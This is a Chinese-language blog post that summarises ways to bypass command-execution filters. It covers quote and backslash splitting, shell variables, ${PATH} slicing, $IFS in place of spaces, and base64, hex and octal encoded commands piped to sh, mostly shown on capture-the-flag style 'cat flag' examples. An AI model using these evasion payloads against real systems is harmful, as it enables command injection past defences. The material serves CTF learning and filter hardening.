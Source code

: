 ```yaml
---
title: 代码执行绕过 | 初级 | 小结
date: 2020-09-24 14:04:32
tags:
  - 编码
  - 绕过
categories:
  - 知识总结
cover: https://ovo.btwoa.com/img/cover/007cover.jpg
excerpt: >-
  梳理总结各类绕过方式
author: btwoa
abbrlink: efdbbe03
---
```


> **本文部分信息可能已发生改变，请自行甄别**

## 拼接绕过

### 反斜杠绕过

ca\\t fl\\ag

### 反单引号绕过

c\`\`a\`\`t flag

### 单引号绕过

c''a''t flag

### 双引号绕过

c""a""t flag

### 插入注释绕过

c\\\*ba2in9a\*\\at flag

## 自定义变量绕过

a=l;b=s;\$a\$b

a=fl;b=ag;cat \$a\$b

## 未初始化变量绕过

cat$m flag

## Shell 特殊变量绕过

当变量不存在时其值为空

### Shell 特殊变量

<details>
<summary> <b> <samp> 点击查看内容 </samp></b></summary>
<ul>
<li> $0  :   当前脚本的文件名</li>
<li> $n  :  传递给脚本或函数的参数（n为正整数）</li>
<li> $#  :  传递给脚本或函数的参数个数</li>
<li> $*  :  传递给脚本或函数的所有参数</li>
<li> $@  :  传递给脚本或函数的所有参数</li>
<li> $?  :  上个命令的退出状态，或函数的返回值</li>
<li> $$  :  当前 Shell 进程或 Shell 脚本所在进程 ID</li>
<li>"$*" :  会将所有的参数作为一个整体，以"$1 $2 … \$n"的形式输出所有参数</li>
<li>"$@" :  会将各个参数分开，以"$1" "$2" … "$n" 的形式输出所有参数</li>
</ul>
</details>

## 利用PATH绕过

\${PATH:5:1} -> l

\${PATH:2:1} -> s

\${PATH:5:1}\${PATH:2:1}

## 过滤斜杠绕过

### \${HOME:0:1}

cat ${HOME:0:1}flag

### echo . | tr ‘!-0’ ‘"-1’

cat $(echo . | tr ‘!-0’ ‘"-1’)flag

## 过滤空格绕过

### Linux

#### {OS_COMMAND,ARGUMENT}可执行系统命令

{cat,flag.php}

#### ;

连接前后命令，多条命令顺序执行，命令之间没有任何逻辑关系

#### 重定向符

##### <和<>

cat<flag.txt

cat<>flag.txt

###### 示例

<details>
<summary> <b> <samp> 点击查看内容 </samp></b></summary>
<table>
	<caption>
		输出重定向符号</caption>
	<tbody>
		<tr>
			<th >
				类&nbsp;型</th>
			<th >
				符&nbsp;号</th>
			<th>
				作&nbsp;用</th>
		</tr>
		<tr>
			<td rowspan="2">
				标准输出重定向</td>
			<td>
				command&nbsp;&gt;file</td>
			<td>
				以覆盖的方式，把 command 的正确输出结果输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file</td>
			<td>
				以追加的方式，把 command 的正确输出结果输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td rowspan="2">
				标准错误输出重定向</td>
			<td>
				command 2&gt;file</td>
			<td>
				以覆盖的方式，把 command 的错误信息输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td>
				command 2&gt;&gt;file</td>
			<td>
				以追加的方式，把 command&nbsp;的错误信息输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td colspan="1" rowspan="6">
				正确输出和错误信息同时保存</td>
			<td>
				command &gt;file&nbsp;2&gt;&amp;1</td>
			<td>
				以覆盖的方式，把正确输出和错误信息同时保存到同一个文件（file）中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file&nbsp;2&gt;&amp;1</td>
			<td>
				以追加的方式，把正确输出和错误信息同时保存到同一个文件（file）中</td>
		</tr>
		<tr>
			<td>
				command &gt;file1 2&gt;file2</td>
			<td>
				以覆盖的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file1&nbsp; 2&gt;&gt;file2</td>
			<td>
				以追加的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;file 2&gt;file</td>
			<td colspan="1" rowspan="2">
				【<span style="color:#b22222;"><b>不推荐</b></span>】这两种写法会导致 file 被打开两次，引起资源竞争， stdout 和 stderr 会互相覆盖</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file 2&gt;&gt;file</td>
		</tr>
	</tbody>
</table>
</details>

##### IFS

###### \$IFS

\$IFS 在 Linux 下表示分隔符

cat\$IFSflag.txt

 bash 会将 IFSflag 当作变量名，导致无法输出预期结果

###### \$IFS$9

加个 \$ 起截断的作用

\$9表示当前系统 shell 进程的第九个参数的持有者，其始终为空字符串

cat\$IFS$9flag.txt

###### \${IFS}

加 \{\} 起固定变量名的作用

cat\${IFS}flag.txt

### Windows

仅 type 命令可行

type.\\flag.txt

type,flag.txt

### URL 编码

#### PHP 环境

%09 horizontal tab 水平制表符

%0a line feed 换行符

%0d vertical tab   垂直制表符

##### 命令终止符

%00 null character 零字符

%20# space 空格符

### 示例

ca\$9t fl\$9ag

ca\$\*t fl\$\*ag 

ca\$\@t fl\$\@ag

## 编码绕过

反引号\`\`和$()和{}|$0用来表示命令执行

cat /flag

```
base64:  Y2F0IC9mbGFn

hex:  636174202f666c6167

oct:  \x63\x61\x74\x20\x2f\x66\x6c\x61\x67
```

### base64

```
echo Y2F0IC9mbGFn|base64 -d|sh

`echo Y2F0IC9mbGFn|base64 -d`

$(echo Y2F0IC9mbGFn|base64 -d)

{echo Y2F0IC9mbGFn|base64 -d}|$0
```

### hex

echo 636174202f666c6167|xxd -r -p|sh

\`echo 636174202f666c6167|xxd -r -p\`

$(echo 636174202f666c6167|xxd -r -p)

{echo 636174202f666c6167|xxd -r -p}|$0

### oct

```
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")

{printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0
```